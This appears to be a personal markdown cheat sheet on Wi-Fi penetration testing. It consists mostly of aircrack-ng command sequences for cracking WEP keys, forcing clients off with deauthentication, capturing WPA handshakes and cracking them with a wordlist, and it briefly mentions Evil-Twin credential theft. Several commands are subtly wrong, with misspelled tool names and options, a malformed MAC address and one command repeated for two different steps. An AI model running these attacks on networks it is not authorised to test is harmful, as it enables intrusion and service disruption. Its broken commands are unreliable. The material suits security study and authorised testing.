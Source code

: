 # Wireless Pentest

## Open network

- Usually for guest access and only for internet
- The guest can access it directly or they need to authenticate through a portal

## WEP

- This protocol has been completely broken for many years and should not be used anymore.
- We can find the key very easily

```bash
# Capture around 30 000 IV (maybe more)
airodump-ng -c 11 --bssid 60:A4:4C:20:DF:60 -w [OUTPUTFILENAME] wlan0mon
# Generate ARP traffic
aireplay-ng -3 -b 00::09:58:6F:64:1E -h 44:60:57:c8:58:A0 wlan0mon
# Monitor the number of IV with
Aircrack out.cap
# Break the key
Aircrack out.cap
```

## WPA

- 2 authentication modes :
  - Personal = WPA PSK (Pre-Shared Key) = authentification by a secret shared with everyone (like at home)
  - Enterprise = WPA MGT (Management) = EAP (Extensible Authentication Protocol).
    It is possible to use several different EAP methods (see the official list on the IANA website) but here are the most common versions:
    - PEAP : historically the only protocol supported by Windows, transmits the credentials of the AD via an MSCHAPv2, thus allowing to recover a NetNTLMv2 hash through the Evil-Twin attack.
    - EAP-TTLS : very similar, can authenticate via login/password which can be recovered via the Evil-Twin attack if the clients do not check the certifcat of the access point.
    - EAP-TLS : mutual authentication by certificate.

### The Hacking process

![image](https://user-images.githubusercontent.com/96747355/176039405-619013ff-b308-4ae9-8fcc-80678c51e275.png)  

> *Source: [Practical Ethical Hacking - TCM Security](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)*

```bash
# check if the wireless card is detected
iwconfig
# shut card if necessary
ifconfig wlan0 down
# kill all interference
airmon-ng check kill
# put the card in monitor mode
iwconfig wlan0 mode monitor
# relaunch it
ifconfig wlan0 up
```

#### OR

```bash
# check if the wireless card is detected
iwconfig
# kill all interference
airmon-ng check kill
# put card in monitor mode
airmon-ng start wlan0
# check if it worked
iwconfig
# Find the ssid in our scope for the test
airodump-ng wlan0mon
# monitor our target for handshakes. For -c we need to specify the channel number found with the previous command and for the bssid option we need the mac address we also found with the previous command
airodump-ng -c <channel-number> --bbsid <MAC-ADDRESS> -w outfile 
# sending deauth
airplay-ng -0 1 -a <MAC-ADDRESS> -c <MAC-ADDRESS-STATION> wlanmon0
# check our capture .ap file to crack the handshake
ls capture*
# crack the handshake with a wordlist
aircrack-ng -w wordlist -b <MAC-ADDRESS> capture-NN.cap 
```

## Tools

- [Wifite](https://github.com/derv82/wifite2)
- [Fluxion](https://github.com/FluxionNetwork/fluxion)
- [EAPHammer](https://github.com/s0lst1c3/eaphammer)

## Equipment

- The following are equipment that can be used for wifi pentest
  - Wireless card Alfa AWUD036NH
  - Alfa AWUS1900
  - Alfa AWUS036ACH
  - Alfa AWUS052NH
  - Alfa AWUS051NH
  - Alfa AWUS036NHR
  - TP-Link TL-WN722N
  - Hak5 Pineapple Nano Basic
  - Flipper Zero along with the wifi dev board

## Resources

{% embed url="https://gbhackers.com/wireless-penetration-testing-checklist-a-detailed-cheat-sheet/" %} Wireless pentest checklist {% endembed %}  
{% embed url="https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/" %} PWNING WPA/WPA2 NETWORKS WITH BETTERCAP AND THE PMKID CLIENT-LESS ATTACK - on evilsocket {% endembed %}  
{% embed url="https://www.aircrack-ng.org/doku.php?id=cracking_wpa" %} How to Crack WPA/WPA2 {% endembed %}  
{% embed url="https://www.wirelesshack.org/" %} WirelesSHack {% endembed %}  
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}  
